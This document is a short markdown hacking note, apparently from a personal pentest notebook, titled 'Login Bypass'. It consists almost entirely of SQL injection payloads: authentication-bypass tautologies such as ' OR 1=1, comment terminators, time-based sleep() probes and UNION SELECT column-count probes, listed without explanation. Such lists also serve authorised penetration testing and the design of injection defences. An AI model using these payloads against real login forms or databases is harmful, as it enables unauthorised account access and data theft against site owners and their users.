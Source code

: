 ```yaml
---
tags: 🔻 🔻/Enumeration sqlinjection
aliases: Hacking Notes
---
```


# Login Bypass

## Login bypass  
#sqlinjection 

meh' OR 3=3;#  
meh' OR 2=2 LIMIT 1;#  
meh' OR 'a'='a  
meh' OR 1=1 --+  
  
  
param='  
param="  
param=' or 1=1  
param=' or 1=0  
param=' and 1=1  
' or sleep(2) and 1=1#  
' or sleep(2)#  
admin' and sleep(2)#  
' union select sleep(2),null#  
' union select sleep(2),null,null,null,null#  
param=' or 1=1#  
param=' or 1=1  
param=' or 1=1 //  
param= or 1=1#  
param=and or 1=1#  
param=' or 1=1  
  

## This is the most classic, standard first test:
#sqlinjection
 
' or '1'='1  
  
Then you have:  
\-'  
' '  
'&'  
'^'  
'\*'  
' or ''-'  
' or '' '  
' or ''&'  
' or ''^'  
' or ''\*'  
"-"  
" "  
"&"  
"^"  
"\*"  
" or ""-"  
" or "" "  
" or ""&"  
" or ""^"  
" or ""\*"  
or true--  
" or true--  